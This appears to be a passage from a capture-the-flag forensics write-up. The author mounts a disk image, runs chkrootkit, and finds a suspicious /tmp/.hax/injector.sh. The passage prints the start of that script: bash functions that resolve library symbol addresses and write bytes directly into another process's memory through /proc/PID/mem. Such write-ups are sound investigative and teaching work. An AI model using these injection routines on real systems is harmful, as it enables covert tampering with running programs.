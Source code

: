 ```shell-session
root@xps15# losetup -f                                      # (ubuntu LOL)
/dev/loop29

root@xps15# losetup -P /dev/loop29 art_ctf_injector_local.raw

root@xps15# fdisk -l /dev/loop29
Disk /dev/loop29: 10 GiB, 10737418240 bytes, 20971520 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 62B0CFE7-BB10-47FE-B235-AD95F16E8072

Device        Start      End  Sectors Size Type
/dev/loop29p1  2048     4095     2048   1M BIOS boot
/dev/loop29p2  4096 20969471 20965376  10G Linux filesystem

root@xps15# mount -r /dev/loop29p2  /mnt
root@xps15# ls /mnt
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   srv  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  sys  usr
```

As a quick test, we can run tools like [`rkhunter`](http://rkhunter.sourceforge.net/)
or [`chkrootkit`](http://www.chkrootkit.org/) to see whether `rudi` used an off-the-shelf
rootkit to backdoor the system:

```shell-session
root@xps15# chkrootkit -r /mnt
ROOTDIR is `/mnt/'
Checking `amd'...                                           not found
Checking `basename'...                                      not infected
Checking `biff'...                                          not found
...
Searching for Backdoor.Linux.Mokes.a ...                    nothing found
Searching for Malicious TinyDNS ...                         nothing found
Searching for Linux.Xor.DDoS ...                            INFECTED: Possible Malicious Linux.Xor.DDoS installed
/mnt/tmp/.hax/injector.sh
```

`/tmp/.hax/injector.sh` definitely looks suspicious:

```bash linenums="1"
#!/bin/bash

set -e

roth8Kai() {
	for i in $(seq 0 7); do
		curr=$(($1 >> $i*8 & 0xff))
		packed="$packed$(printf '\\x%02x' $curr)"
	done

	echo $packed
}

ieph2Oon() {
    echo $((0x$(nm -D "$1" | sed 's/@.*//' | grep -E " $2$" | cut -d ' ' -f1)))
}

QueSh8yi() {
    echo -ne "$3" | dd of="/proc/$1/mem" bs=1 "seek=$2" conv=notrunc 2>/dev/null
}

```
